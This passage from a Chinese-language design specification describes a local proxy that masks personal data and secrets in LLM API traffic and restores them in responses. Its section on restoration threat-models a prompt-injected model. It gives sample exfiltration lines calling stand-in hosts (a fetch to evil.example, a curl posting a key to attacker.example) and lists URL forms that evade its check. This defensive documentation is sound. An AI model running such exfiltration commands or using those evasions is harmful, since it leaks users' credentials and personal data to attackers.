| `tw-mobile-loose` | `PHONE` | 以 `.`、`/` 或 `_` 分成 4-3-3 的手機號碼（`0912.345.678`、`0912/345/678`、`0912_345_678`；全形 `／` 與全形數字經 NFKC 折疊後也算），兩個分隔符須相同；以及前 4 碼加括號的寫法（`(0912)345678`、`(0912) 345-678`、`(0912)-345-678`、`(0912) 345 678`）。前後緊鄰英數字、`.`、`/`、`_`，或後面還有 `.數字`、`/數字`、`_數字` 時不算，所以版本號、日期、IP、識別字（`1.2.3`、`2026.10.08`、`0912.345.678.9`、`x_0912_345_678`）不遮。 |
| `email-escaped` | `EMAIL` | `@` 寫成 HTML 字元參照（`&#64;`、`&#x40;`、`&commat;`）或 JSON 跳脫（`\u0040`）的 email：把這些寫法換成 `@` 的投影上跑 `email` 規則，遮罩範圍對應回整段原文，還原時逐位元組寫回。 |
| `ip-cgnat-ula` | `IP` | RFC 6598 共享位址 `100.64.0.0/10`（電信業者 NAT、Tailscale），檢查每段數值；以及 RFC 4193 IPv6 唯一本地位址 `fc00::/7`（`fd12:3456:789a::1`），以 Node 的 `isIPv6` 驗證。MAC 位址（`fd:12:34:…`）與公開 IPv6 位址不算；以 `::` 結尾、後接 `/前綴長度` 的網段（`fc00::/7`、`fd12:3456:789a::/48`）也不算，所以網段寫法洩漏的站台前綴不遮。不帶前綴長度的 `fc00::` 仍會遮。 |

**路徑不整段遮。** `user-path` 只遮家目錄前綴（使用者名稱），其餘保留，所以公開評測把多數路徑算成「部分遮蔽」。整段遮會讓模型看不到檔案結構與副檔名，讀 stack trace、建議改哪個檔案都會變差；使用者名稱是路徑中唯一必然指向個人的部分，保留集上 97% 的路徑完整遮到它。路徑中的專案或客戶名稱用 `projectNames`、`terms` 遮，這兩者在路徑中也會比對。因此不提供整段遮的選項；有需要再加。

- **NFKC 投影。** 每條規則也會在去除零寬字元（U+200B–U+200D、U+2060、U+FEFF）與軟連字號（U+00AD）後的 NFKC 投影上再跑一次，所以全形數字（`０９１２３４５６７８`）、全形 `＠`、`ali\u200bce@…` 都抓得到。其他隱形字元（U+200E/U+200F 等雙向標記、U+034F、變體選擇符、標籤字元）不去除，夾在值中間時該值不被偵測。
- **百分比解碼投影。** 每條規則（包括 `terms`）也會在百分比解碼後的文字上再跑一次。每一段連續的 `%XX` 逐個 UTF-8 字元解碼：合法的位元組序列解碼成字元，無法開始或完成合法序列的 `%XX`（截斷的 `%E6`、單獨的 `%FF`、過長編碼、代理碼位）照原樣保留並一對一對應，同一段其餘部分照常解碼；`+` 不當成空格。解碼後的文字再做一次去除零寬字元與軟連字號的 NFKC 投影，兩層對應組合後仍指回編碼原文，所以 `lin%E2%80%8B.yating%40…` 與百分比編碼的全形數字也抓得到。偵測到的範圍對應回整段編碼原文，佔位符蓋住編碼原文，登錄表綁定的也是編碼原文，所以還原與工具參數都逐位元組寫回原樣（大小寫混用的 `%2f` 也一樣）。編碼過的 term 與其他寫法一樣有自己的佔位符，還原成自己的寫法。只解碼一層：編碼兩次的值（`%2540`）不偵測。表單編碼查詢中代表空格的 `+`（`星河+計畫`）不偵測。需要左側不是英數字、且以數字開頭的規則（手機號碼 `PHONE_MOBILE`、`PHONE_MOBILE_SPLIT`、`PHONE_KEYWORD`、統一編號、信用卡號、私有 IP）與金鑰前綴把緊接在前的 `%80`–`%FF` 視為邊界，所以 `%E6%2B886…`、`%E609-1234-5678`、`tel%3A%E602-…`、`%c0sk-…` 抓得到；`%00`–`%7F` 一定會解碼，`%41%42` 後面的數字仍算同一個字詞。同值擴散的左邊界也一樣。以字母開頭的身分證字號沒有這個邊界：Big5 與 Shift-JIS 中緊接在前導位元組後面的 ASCII 字母是該字的尾位元組（`%A4A` 是「乙」、`%83P%81%5B%83X` 是「ケース」），所以緊接在無效 `%XX` 後面的身分證字號（`%E6A123456789`）不偵測。金鑰前綴保留這個邊界，所以尾位元組為 `A` 的 Shift-JIS 字元加上 `KIA…`（`%83AKIA…`）會遮成形似金鑰的範圍。URL 裡經 base64 編碼的值不解碼；隱私路由只在工具輸出中解碼 base64。
- **同值擴散。** 一個值被偵測到之後，它在同一請求中的其他出現位置也會用同一個佔位符遮掉（`propagate`）。
- **允許清單。** `allowlist` 中的字面值不會被任何內建規則遮罩，預設是 `git@github.com` 與 `noreply@github.com`。設為空陣列就什麼都不放過。
- **未偵測的拆開寫法。** 點後加空格的私有 IP（`192. 168. 1. 2`）、被空格或換行拆開的金鑰（只有高熵規則可能抓到片段），以及寫成 `name @ domain`（有空白）或單獨用 ` at ` 的 email 不遮（只有分類器把關）。
- **保留 id。** 原文中若出現字面的 `EMAIL_3`（某個政策類別的 `CATEGORY_n`），這個 id 會被保留、不分配給偵測到的值。

## 4. 遮罩順序與提示快取

- **用佔位符，不用假值。** 每個不同的值得到一個 `⟦CATEGORY_n⟧`。以假值替換（「數位分身」）經過實測後被否決：模型逐字保留佔位符的比例是 100%，假值只有 75%；假值還造成無法還原的靜默錯誤（18 段對話中 5 段）。
- **編號依文字順序。** `collectSlots` 在請求最上層先收集 `tools`、`functions`、`system`、`instructions`，再依 JSON 鍵順序收集其餘欄位。
- **前綴逐位元組穩定。** 用戶端每次都重送完整歷史，所以只增不改的對話中，同一個值每一輪都得到同一個佔位符，遮罩後的前綴不變，上游的提示快取照常生效。
- **會打破穩定的情況。** 後面的訊息若含字面的 `EMAIL_3`，這個 id 會被保留，可能讓在它之後首次出現的值重新編號。例外是代理留在工具參數中、用戶端照原樣回送的 `⟦EMAIL_3⟧`：符合第 8 節「回送的佔位符」的條件時原樣送出，不保留 id。用戶端若改寫了較早的歷史，前綴也會跟著改變。較後的輪次（或同一憑證的另一個請求）首次偵測到一個先前已出現過的值時，先前的位置也會被遮罩，前綴因此改變一次。

## 5. 不遮就轉送的欄位

請求中以下鍵的字串值不會被遮（`SKIP_MASK`）。值是物件或陣列時照常往下找，所以工具 schema 中名為 `name`、`data`、`url` 的屬性說明照常遮罩。例外：`data` 所在物件的 `type` 是 `text`（Anthropic 純文字文件的 `source`）時照常遮罩；回送的工具呼叫輸入（Anthropic `*tool_use` 的 `input`，以及 Responses `*_call` 項目自身欄位底下的物件，例如 `local_shell_call` 的 `action`）中的字串不論鍵名都遮，連 `data`、`thinking`、`signature`、`encrypted_content` 也遮，因為還原會把原始值寫進工具輸入中任何鍵下的字串，那裡也沒有簽章或加密狀態；項目本身的 `type`、`id`、`call_id`、`name`、`status` 照常不遮；`metadata` 與 `stop` 整個值都不遮（`SKIP_SUBTREE`）。OpenAI 的檔案部分（`file_data`）是 base64 data URL，不解碼也不遮。

| 類型 | 鍵 |
| --- | --- |
| 識別碼與列舉 | `model`、`role`、`type`、`id`、`call_id`、`tool_call_id`、`tool_use_id`、`previous_response_id`、`status`、`service_tier`、`reasoning_effort`、`tool_choice`、`format`、`cache_control` |
| API 精確比對的名稱 | `name`（工具與參與者名稱） |
| 二進位與檔案 | `data`、`media_type`、`url`、`image_url`、`file_id`、`file_data` |
| 簽章或加密的模型狀態 | `signature`、`thinking`、`encrypted_content` |

回應中 `signature`、`thinking`、`data`、`encrypted_content` 的字串照模型送出的原樣保留（`SKIP_RESTORE`），因為用戶端之後要逐位元組回送；工具呼叫輸入中同名鍵的字串照常還原。因此 Anthropic 的 thinking 內容會帶著佔位符顯示。

`arguments` 與 `partial_json` 是 JSON 文字，還原時原始值會以 JSON 跳脫寫入（`JSON_TEXT`）。所以遮罩時每個綁定或記住的值也以 JSON 跳脫寫法比對（`p@ss\word12` 也找 `p@ss\\word12`），用它原樣寫法的佔位符；這種寫法先綁定時，還原仍寫回原樣寫法，寫進 `arguments` 只跳脫一次。跳脫寫法本身若也是這次綁定或先前記住的值，就是另一個值，有自己的佔位符並原樣還原：先後輸入的密碼 `ab\cd12ef` 與 `ab\\cd12ef` 各自還原。請求中的 `arguments` 在遮罩前先把 `\uXXXX` 與 `\/` 跳脫改寫成 `JSON.stringify` 的寫法（Go 把 `&` 寫成 `\u0026`，PHP 把 `/` 寫成 `\/`，Python 與 .NET 把 `🔑` 寫成 `\ud83d\udd11`）：成對的 surrogate 與其他字元寫成字元本身，引號、反斜線與有短跳脫的控制字元寫成短跳脫（`\u0022` 寫成 `\"`、`\u000a` 寫成 `\n`），讓值的 JSON 跳脫寫法比對得到；送往上游的是改寫後的文字。其他控制字元、U+FFFD、孤立 surrogate 與無效的跳脫維持原樣。

## 6. 拒絕與錯誤狀態碼

| 狀態碼 | 何時 | 訊息內容 |
| --- | --- | --- |
| 400 | 遮罩路由的請求本文不是 JSON。 | `request body is not JSON` |
| 400 | 遮罩路由的請求本文巢狀太深，遞迴走訪會耗盡呼叫堆疊（實測陣列約 1,500 層、物件約 2,000 層以上，依 Node 版本與堆疊大小而定）。不轉送。 | 固定訊息 |
| 403 | 帶有 `Origin`，但它既不是本機的 `http(s)` 來源，也不在 `allowedOrigins` 中（網頁發出的請求，含 `Origin: null`）；或未設 `authToken` 且 `Host` 不是本機名稱（`localhost`、`127.0.0.0/8`、`[::1]`；DNS rebinding）。在任何路由檢查之前。 | 固定訊息 |
| 401 | 設了 `authToken`，但請求沒帶 `x-redaction-proxy-token`，或值不符。以 SHA-256 摘要做固定時間比較。帶正確權杖時不檢查 `Host`。 | 固定訊息 |
| 204 | 允許的來源發出的 CORS 預檢（`OPTIONS` 帶 `Access-Control-Request-Method`）。不需權杖，不轉送。 | 無本文 |
| 413 | 請求本文超過 64 MiB。 | 上限 |
| 404 | POST 到代理不遮罩的路由（例如 `/v1/embeddings`），或 GET、POST 與 OPTIONS 預檢以外的方法。 | 方法與路徑 |
| 422 | `screen: "refuse"` 且某段文字含控制字元、U+FFFD、孤立 surrogate 或 `⟦`/`⟧`（符合第 8 節「回送的佔位符」條件、原樣送出的佔位符除外）。 | JSON 路徑與字元類別 |
| 422 | **送出前外洩檢查**：遮罩後請求的任一字串或鍵中，仍找得到這個請求偵測到的某個原始值（原樣或 JSON 跳脫形式）。規則值在任何位置、不分 ASCII 大小寫都算（`LIN@EXAMPLE.TEST` 算 `lin@example.test`）。只由先前請求記住的值（第 8 節）不檢查。名稱模型的值與 `terms`、`projectNames` 的字面值：以空格分詞的文字只算完整單字（`Leeds` 裡的 `Lee`、`Hsinchu` 裡的 `Hsin` 不算），中日韓文字在任何位置都算；字面值不分 ASCII 大小寫，只有一個字的模型值不檢查。列舉欄位（`role`、`type` 等）的值像列舉值時不檢查，`metadata`、`stop` 底下與工具呼叫輸入中照常檢查，見第 8 節。設定 `sendWhenMaskFails` 時不拒絕，改送出部分遮罩的本文，見下方。 | 最多 5 個欄位路徑，各附所含值的類別 |
| 422 | 帶 `previous_response_id`，但代理沒有這個用戶端憑證的先前輸入（重啟、被擠出、從未經過代理，或屬於另一個用戶端）。 | 固定訊息 |
| 422 | 與 `previous_response_id` 先前輸入合併後 `mask` 拋出 `RedactionError`。設定 `sendWhenMaskFails` 時不拒絕，改送出原始本文，見下方。 | 錯誤代碼 |
| 503 | 開啟人名模型且 `nameModel.required` 為 `true`，而模型在這個請求上推論失敗。不轉送。 | 固定訊息 |
| 502 | 連不上上游。 | 網路錯誤代碼 |
| 502 | 上游回 3xx 並帶 `Location`（重新導向）。代理不跟隨，不把請求送往別處；不帶 `Location` 的 `304` 照常轉回。 | 狀態碼 |

外洩檢查會在以下情況觸發：偵測到的值也出現在不遮的欄位（第 5 節），或該值出現在較長的詞中間而未被遮。只出現在不遮欄位或物件鍵中、別處沒有出現的值，不會被偵測，照原樣送出。拒絕訊息只指出欄位，絕不含值：陣列索引照寫（`/messages/1/content`）；本身含有偵測值的鍵，以及不是小寫識別字（`[a-z][a-z0-9_]*`，最多 40 字元）的鍵，都寫成 `<key>`。拒絕時請求不會送出。

**`sendWhenMaskFails`。** 預設 `false`，上面兩種 422（外洩檢查、`RedactionError`）照常拒絕。設為 `true` 時，外洩檢查找到的請求改送出部分遮罩的本文（遮得到的地方照常是佔位符，殘留的值照原樣），`mask` 拋出 `RedactionError` 的請求改送出原始本文。這會把偵測到的值送給服務商。兩種情況都在回應加上 `x-redaction-proxy-mask-failed: 1` 標頭（遮罩失敗後代理自己回的錯誤也帶，例如上游重新導向或連線被拒時的 502），並在日誌記一行警告，寫出欄位路徑與類別（與拒絕訊息相同），或 `RedactionError` 的錯誤代碼，絕不含值；這類請求即使開了 `debugMasked` 也不記錄本文。回覆照常以這個請求的綁定還原；`RedactionError` 時沒有綁定，佔位符照原樣回給用戶端。這個開關不影響其他拒絕：`screen: "refuse"`、未知的 `previous_response_id`、來源、權杖、`Host`、大小檢查與上游重新導向照常拒絕；`nameModel.required` 維持原意（為 `true` 時回 503，否則只以規則遮罩後送出）。

錯誤回應本文的格式：`{"error":{"type":"redaction_proxy_error","message":"..."}}`。

路由：

| 路由 | 處理 | 上游 |
| --- | --- | --- |
| `POST /v1/chat/completions` | 遮罩與還原 | OpenAI 上游 |
| `POST /v1/responses` | 遮罩與還原，記住回應 id | OpenAI 上游 |
| `POST /v1/messages` | 遮罩與還原 | Anthropic 上游 |
| `POST /v1/messages/count_tokens` | 遮罩（回應沒有佔位符可還原） | Anthropic 上游 |
| `GET` 任何路徑 | 原樣轉送 | 帶 `x-api-key` 或 `anthropic-version` 標頭時走 Anthropic，否則走 OpenAI |
| `OPTIONS`（CORS 預檢） | 允許的來源回 204，不轉送 | — |

上游 URL 為設定的 base 加上用戶端的原始路徑與查詢字串。用戶端的 `authorization`、`x-api-key`、`anthropic-*` 等標頭原樣轉送，代理從不儲存。`host`、`connection`、`content-length`、`content-encoding`、`accept-encoding` 等逐跳標頭不轉送，送往上游時固定 `accept-encoding: identity`。`x-redaction-proxy-token` 不轉送。上游回應的 `access-control-*` 標頭不轉回；來自允許來源的請求，由代理自己回 `access-control-allow-origin: <該來源>` 與 `access-control-expose-headers: x-redaction-proxy-mask-failed`。上游回應若帶 `x-redaction-proxy-mask-failed`，代理把它去掉，這個標頭只由代理設定。用戶端斷線時，代理會中止上游請求。代理不跟隨上游的重新導向（回 502），所以用戶端的憑證與請求只送往設定的上游，即使 `Location` 指向別的主機或 `http://`。

## 7. 串流還原

每個串流文字欄位各有一個 `StreamRestorer`：

- **只扣住可能的佔位符前綴。** 看到 `⟦` 之後，若後續文字仍可能長成 `CATEGORY_n⟧`，就先扣住；最多扣 64 個字元（`HELD_MAX`），超過就當一般文字放出。其餘文字立即送出。
- **跨塊只還原一次。** 佔位符被切成任意多段也只會還原一次。
- **永不失敗。** 未綁定的 id（模型編出來的）保留為字面佔位符並計入 `unknown`；不成佔位符的分隔符當作文字放出。
- **JSON 模式。** 工具呼叫參數是 JSON 文字，原始值以 JSON 字串內容的跳脫形式寫入，避免引號或換行破壞 JSON。

以 `I will email ⟦EMAIL_1⟧ about` 被切成兩塊為例：



各 API 的欄位與殘留送出方式：

| API | 各自還原的欄位 | 欄位結束時的殘留 |
| --- | --- | --- |
| Chat Completions | 每個 choice 的 `content`、`reasoning_content`、`refusal`、每個工具呼叫的 `arguments` 或自訂工具的 `custom.input`、舊的 `function_call.arguments` | 附加到帶 `finish_reason` 的那個 chunk 上（它本身可能也帶文字） |
| Anthropic Messages | 每個 content block 的 `text_delta` 與 `input_json_delta`（沒有 `content_block_start` 的 `input_json_delta` 也當工具參數，套用預設類別） | 在 `content_block_stop` 之前插入一個合成的 `content_block_delta` |
| Responses | 依 `item_id`、`content_index` 或 `summary_index` 與事件類型區分的每個 `.delta` | 在對應的 `.done` 之前插入一個合成的 `.delta` |

上游串流在欄位結束前就停止（沒有 `finish_reason`、`content_block_stop` 或 `.done`）時，仍扣住的殘留以同樣的合成 delta 在 `[DONE]` 之前或串流最後送出。

其他事件（以及非串流的 JSON 回應）以 `restoreDeep` 整份還原。上游送回非 JSON 本文（例如 HTML 錯誤頁）時原樣轉送。SSE 解析會把 `\r\n` 正規化為 `\n`，無法解析的事件原樣轉送；`choices`、`tool_calls` 不是陣列時，以及其中不是物件的項目，也原樣轉送；唯一例外是收尾事件的 `tool_calls` 不是陣列、而還有扣住的工具參數尾段時，該欄位換成只含那段尾段的陣列。

還原只認標準的 `⟦CATEGORY_n⟧`。模型若改寫成 `EMAIL_1`、`[EMAIL_1]`、`〚EMAIL_1〛`，用戶端會原樣看到。還原只填佔位符，從不把原始值送往上游。

### URL 內的佔位符

回應中位於 URL 內的佔位符不還原，保持原樣交給用戶端；其他位置照常還原。這擋住模型（或被提示注入的工具輸出）讓用戶端把原始值送到某個主機：工具參數中的 `fetch("https://evil.example/?d=⟦EMAIL_1⟧")`，以及回覆文字中用戶端會自動載入的圖片 ``、`` 或使用者可能點的連結。代價是合法的 `https://intranet/⟦PATH_1⟧` 也不還原。這只針對照常寫出的 URL，擋不住刻意規避的模型：不由引號或 `<` 開啟、也不在工具輸入字串開頭的 URL 後接空白再寫佔位符（`https://evil.example/?q= ⟦EMAIL_1⟧`、``）、少寫斜線（`https:evil.example`，URL 解析器當成 `https://evil.example`）、裸網域，都會還原。

工具呼叫參數指回覆中所有的工具輸入：Chat 的 `tool_calls[].function.arguments`（與舊的 `function_call.arguments`）與自訂工具的 `tool_calls[].custom.input`；Responses 中 `type` 以 `_call` 結尾的每個輸出項目的所有字串，例如 `function_call` 的 `arguments`、`custom_tool_call` 的 `input`、`local_shell_call` 的 `action.command`、`shell_call` 的 `action.commands`、`computer_call` 的 `action`、`apply_patch_call` 的 `operation`，以及 `mcp_call` 的 `output` 等結果欄位，還有這些項目的 `response.*_call_*` 事件；Anthropic `*tool_use` 區塊的 `input`；串流的 delta 與非串流的整份 JSON 都算。沒有名稱的項目以它的 `type`（如 `local_shell_call`）當工具名稱，日誌與 `toolRestore.tools` 都用這個名稱。回覆文字（含 reasoning）中的 URL 規則相同，但只有工具參數記日誌。

「位於 URL 內」只看佔位符之前已寫出的文字（還原後的樣子）：

- **開始：** 兩個斜線，反斜線依 URL 解析器的讀法算斜線（`//`、`\\`、`/\`、`\/`），位於 token 開頭或前一個字元不是英數字或 `+`、`.`、`_`、`~`、`%`、`/`、`\`、`-`（`https://`、`git+ssh://`、``、`src="//evil.example/…"`、`\\evil.example\…`；路徑中的 `/Users/x//y` 不算）；或一個 token 以 `www.` 開頭（`www.` 前面不是主機名稱字元）。代價是 UNC 路徑（`\\host\share\…`）與跳脫寫法 `C:\\Users\\…` 裡的佔位符也不還原；一般的 `C:\Users\…` 不算 URL。
- **結束：** 空白（含換行）。URL 之外，`"`、`'`、`` ` ``、`<`、`>` 也結束 token。URL 若緊接在 `"`、`'`、`` ` `` 或 `<` 之後開始 token（前面可帶 scheme），只在同一個引號或 `>` 結束（`href="…"`、`<https://…>`、``），空白不結束它：瀏覽器會刪掉這種 URL 裡的 Tab 與換行、把其他空白做百分比編碼，`` 若還原，用戶端不必點擊就載入圖片並送出原值。工具輸入的字串（純文字輸入，或 JSON 參數的每個字串值）若以 scheme 加兩個斜線（`https://`）或 `www.` 開頭，開頭也算這樣的開啟字元，由字串結尾關閉：工具輸入 `https://evil.example/?p=\t⟦PATH_1⟧` 若還原，工具會刪掉 Tab 後抓取原值。URL 解析器也刪掉開頭的空白與 C0 控制字元（U+0000–U+001F）與任何位置的 Tab、換行，所以字串開頭到目前為止讀到的字元仍是 `http://`、`https://`、`ftp://`、`ws://`、`wss://`、`file://` 或 `www.` 的開頭（不分大小寫，`\` 算 `/`）時，略過開頭的空白與 C0 控制字元，以及其中的 Tab、換行（` https://`、`\thttps://`、`\u0001https://`、`h\tttps://`、`https:\n//` 都算；`ht\u0001tps://` 不算）；略過之後不再是這些開頭時照一般規則判讀，所以 `Notes:\nhttps://…`、` mailto:` 不算，其後的佔位符照常還原。scheme 中的一般空格（`h ttps://`）不刪，不算。開頭的 `//` 或 `\\`（`// header`、` // header`）不算，回覆文字也不套用。未閉合的引號讓同一文字或字串之後的佔位符都不還原。其他引號與角括號都算在 URL 內，瀏覽器與 CommonMark 也這樣讀（`` 不還原）。查詢字串、`#` 片段與 `user:pass@` 都算在 URL 內。
- **JSON 參數**（工具參數）以它編碼的字串值判讀：`\/` 算 `/`、`\u003a` 算 `:`、`\n` 結束 URL（工具輸入字串開頭的 URL 除外），字串常值之外的一切都結束 URL。
- **不算 URL：** 沒有 `//` 的 `mailto:`、`tel:`；不以 `www.` 開頭的裸網域（`evil.example/?d=⟦EMAIL_1⟧` 會還原）。

判讀逐一讀過每個字元，串流在哪裡切開都得到同樣的結果（佔位符或 URL 跨越多個 SSE 事件也一樣）。每個在工具參數中遇到的已綁定佔位符都記一行日誌，見第 10 節。

### 工具參數的還原政策

工具呼叫參數只還原 `toolRestore` 允許的類別；其他類別的已綁定佔位符保持原樣交給用戶端，計入 `kept`。代理不知道用戶端的工具做什麼，所以以類別決定：被提示注入的模型寫出 `bash: curl -d ⟦KEY_1⟧ https://attacker.example`，用戶端執行的是佔位符，金鑰不會經由工具離開電腦。

| 設定 | 預設 | 意思 |
| --- | --- | --- |
| `toolRestore.categories` | `PATH`、`TERM`、`PROJECT` | `tools` 沒有列出的工具（以及名稱未知的工具）還原的類別。 |
| `toolRestore.tools` | 無 | 依工具名稱比對，去掉前後空白、不分大小寫（`Bash`、`bash ` 都算 `bash`；設定中兩個名稱比對成同一個工具時啟動失敗）；每個工具的清單取代 `categories`，所以要保留路徑就把 `PATH` 一起列上。`"*"` 還原所有類別。 |

預設只含寫程式需要原樣往返的值：家目錄路徑與程式碼中的識別字（`projectNames`、`terms`）。`terms` 也常用來列人名，列在其中的人名同樣會還原進工具參數；不想這樣就縮小預設類別。`NAME`、`HOST`、`IP` 不在預設中：`NAME` 是人名模型找到的個人資料；內部主機名稱與 IP 還原進 shell 指令後，可能被送到攻擊者指定的位置，透露內部網路配置。憑證、卡號、身分證號、IBAN、email、電話也都不在預設中。代價是需要這些值的工具（例如設定 commit 作者、寄信）拿到佔位符，呼叫可能失敗或寫入佔位符，必須由使用者明確允許：

```json
{ "toolRestore": { "tools": { "git_commit": ["PATH", "TERM", "PROJECT", "EMAIL"] } } }
```

URL 內的佔位符不論類別一律保持原樣；回覆文字（含 reasoning）不受這個政策影響。有效類別為 `EMAIL`、`PATH`、`KEY`、`TWID`、`PHONE`、`TAXID`、`CARD`、`IP`、`HOST`、`ENTROPY`、`IBAN`、`NATID`、`PROJECT`、`TERM`、`NAME`、`ORG`、`LOC`、`ADDR`；不認得的類別讓啟動失敗，錯誤訊息列出有效類別。

## 8. 對話內編號與 previous_response_id

代理不保存對話的對照表：每個請求都從整份請求重新推導編號。這是刻意的取捨：

| 做法 | 好處 | 代價 |
| --- | --- | --- |
| 每次從完整歷史重新編號（採用） | 不需持久化、重啟不影響、多個用戶端共用代理不互相干擾 | 同一個值在不同對話中可能拿到不同 id；用戶端改寫早期歷史會改變編號 |
| 在伺服器端保存每段對話的對照表 | 編號跨請求固定 | 需要辨識對話、需要儲存原始值、重啟或多行程時要同步 |

例外是 Responses API 的接續請求：帶 `previous_response_id` 的請求不重送歷史。代理在每個成功的 Responses 回應後，把該請求的**原始**輸入文字存在行程記憶體中、以用戶端範圍與回應 id 為鍵（先進先出，最多 256 個）。用戶端範圍是轉送給上游的憑證（`authorization`，否則 `x-api-key`）的 SHA-256 摘要；沒帶自己憑證、由代理補上設定金鑰的用戶端共用一個範圍。接續請求時，先把存下的先前輸入放在前面一起遮罩，所以編號與先前輪次一致；日誌的遮罩計數只算這次請求新送出的部分。

代價：

- 這些原始文字留在代理的記憶體中，直到被擠出。
- 代理重啟、或接續的 id 已被擠出後，接續請求以 422 拒絕。若照常轉送，這次請求的編號會把上游記得的舊佔位符（例如指向 A 的 `⟦EMAIL_1⟧`）綁到這次的另一個值 B，靜默還原成錯的值。
- 帶另一個用戶端的回應 id 的請求，代理找不到它的先前輸入，以 422 拒絕；共用同一把憑證的呼叫者則共用範圍。

### 已知原始值

用戶端可能改寫歷史：壓縮成摘要，或丟掉較早的訊息。值若是靠上下文偵測到的（`password: Tr0ub4dor&3x` 的關鍵詞），先前回覆中還原出來的 `Tr0ub4dor&3x` 少了關鍵詞就不再被偵測，會原樣送上游。因此代理把每個請求偵測到的原始值與類別，依同一個用戶端範圍存在記憶體中，之後同一範圍的請求把它們加進同值擴散，在它們單獨出現的地方遮罩。保護分兩層：

- **同一個請求內。** 這次偵測到的值不論多短都擴散到它的每個出現處，並受外洩檢查保護：遮罩後仍在請求中的寫法（黏著其他字元、大寫、在不改寫的欄位中）讓請求預設以 422 拒絕；名稱模型的值與 `terms`、`projectNames` 的字面值只算完整單字（第 6 節）。另一個偵測拆開某次出現時（`call pw-0912345678` 中的電話號碼），沒蓋到的部分（`pw-`）各自綁定並遮罩，但外洩檢查不看它，即使整個值是這個請求偵測到的：憑證的前段（`hunter2zz-`）單獨出現在 `metadata` 中時照原樣送出，整個值與其中偵測到的電話號碼照常檢查。記住的憑證的部分也不分 ASCII 大小寫（`PW-`）。
- **跨請求。** 記住的值只是盡力而為的額外遮罩，從不拒絕請求。它們以同值擴散比對：作為完整單字出現時遮（也找 JSON 跳脫寫法，憑證也找任何 ASCII 大小寫），黏在其他文字中（`xTr0ub4dor&3xy`、`footballer` 裡記住的 `football`）、換了寫法（大寫又經 JSON 跳脫的 `P@SS\\WORD12`），或在不改寫的欄位（`metadata`）中時照原樣送出。這樣記住的 `football` 不會讓之後含 `footballer` 的請求被拒。
- **長度。** 同一個請求內，憑證（`KEY`）不論多短都擴散到它的每個出現處：`password: ab12x, again ab12x` 兩處都遮。帶到之後請求的，只有本身長度就夠擴散的值：至少 6 個可列印 ASCII 字元，或至少 2 個其他碼位。較短的值不記住，否則 `ab1` 會遮掉之後每個 `ab12` 裡的那段；所以之後的請求中，少了關鍵詞的 `ab12x` 照原樣送出。全由協定與佔位用字組成的 snake_case 值（`web_server`、`data_store`）也不記住，否則之後請求中提到這個欄位名的文字都會被遮；它們只在綁定它們的請求中遮。
- **大小寫。** 記住的憑證不分 ASCII 大小寫：之後出現的 `TR0UB4DOR&3X`、`tr0ub4dor&3x` 都遮，各有自己的佔位符。其他類別照原樣比對。
- **容量。** 每個範圍每個類別最多 4,096 個值、最多 64 個範圍，都先進先出；請求再綁定的值移到最新端。類別各自計數，所以一次幾千個 email 的工具結果擠不掉記住的憑證。在用戶端自己寫的文字（user、system、developer 訊息的內容與文字部分，以及 Anthropic 的 `system` 與 Responses 的 `instructions`）中綁定的值（包括只靠記憶遮到的值：工具輸出中偵測到、之後使用者不帶關鍵詞寫出的值，移進這個桶時存活時間不變）另外放在每個類別各一個桶中，也是 4,096 個，所以一次幾千行 cookie 的工具結果也擠不掉使用者訊息或系統提示中的密碼；使用者自己貼上的大量同類別新值（例如 4,096 個新的 `password: …`）則會擠掉較舊的憑證，之後它的回聲照原樣送出。記憶依用戶端憑證分開且有上限，所以連得到代理的本機程式可以送大量請求（或用 64 個不同的憑證）把記住的值擠掉；這可以接受，因為代理預設只綁定本機位址，綁定其他位址時必須設 `authToken`（第 11 節）。
- **外洩檢查。** 列舉欄位（`type`、`role`、`object`、`status`、`finish_reason`、`stop_reason`、`service_tier`、`reasoning_effort`、`tool_choice`）的字串只能是 API 定義的固定值，不帶私人資料；值像列舉值（小寫英文字母開頭，只含小寫英數字與 `_`、`.`、`:`、`-`，最多 64 字元）時外洩檢查不看。否則一個被誤判的 `assistant`，會讓帶 assistant 回合的請求被拒。`metadata`、`stop` 底下與工具呼叫輸入中的鍵由用戶端或工具定義，那裡同名的鍵照常檢查；工具呼叫輸入不論鍵名都遮（第 5 節），所以還原進名為 `type`、`status`、`name` 等工具參數的值，回送時會再被遮罩。物件鍵照常檢查：被誤判的 `messages`、`text` 會讓含這些鍵的請求預設以 422 拒絕。拒絕訊息寫出每個欄位所含值的類別，從不寫值本身。
- **回送的佔位符。** 不在 `toolRestore` 中的類別以佔位符交給用戶端（第 7 節），用戶端下一輪把 `⟦EMAIL_3⟧` 原樣放在工具呼叫輸入（也常在工具結果）中回送。記憶也記下每個值被綁定的 id（每個值最多 8 個，新的在前）。請求中的 `⟦EMAIL_3⟧` 要有錨點才可能原樣送出：它依遮罩順序（先 system、tools 與 instructions，第 4 節）第一次出現就在這個請求重送的工具呼叫中由模型寫的輸入裡（Anthropic `tool_use` 的 `input`；Chat Completions 的 `tool_calls[].function.arguments`、`tool_calls[].custom.input` 與舊的 `function_call.arguments`；Responses `*_call` 項目的 `arguments`、`action`、`code`、`input`、`queries`、`operation`，都是模型依這段對話的佔位符寫的；工具或伺服器寫進這些項目的內容，例如 `output`、`outputs`、`error`、`results`、`pending_safety_checks`，以及 `web_search_call` 的 `action.sources`，照常遮罩但不算錨點），或是代理在 Responses 接續鏈先前回覆的工具呼叫參數中留下的（接續鏈第一次回送工具結果時，請求中沒有工具呼叫）。助理文字與推理（Anthropic 助理的 `text` 區塊、Chat 助理的 `content` 與 DeepSeek 的 `reasoning_content`、Responses 助理的 `output_text` 與 `reasoning` 摘要）不算錨點；它們與帶這個 id 的工具呼叫在同一個模型回合時是在預告這個呼叫，不算第一次出現。同一個模型回合指：Anthropic 與 Chat 是同一則助理訊息；Responses 是連續的 `reasoning`、助理 `message` 與 `*_call` 項目，從前一個其他項目（使用者、system 或 developer 訊息，或工具輸出）之後，到下一個其他項目之前。較早的助理回合算第一次出現，例如用戶端以助理訊息插入的摘要，所以之後照抄它的工具呼叫沒有錨點。有錨點的 id 在同一個請求的工具結果與其他文字中也一起原樣送出。此外，它在這個用戶端範圍的記憶中只綁定過一個記住的值，該值（原樣或 JSON 跳脫寫法）出現在這個請求中，而且不保留 `EMAIL_3` 照常編號時那個值仍得到 `EMAIL_3`、佔位符的位置也沒有被其他偵測吞掉，代理才把 `⟦EMAIL_3⟧` 原樣送上游，不換成 `⟪EMAIL_3⟫`，也不保留這個 id。較早的訊息因此每一輪逐位元組相同（Anthropic 簽章的 `thinking` 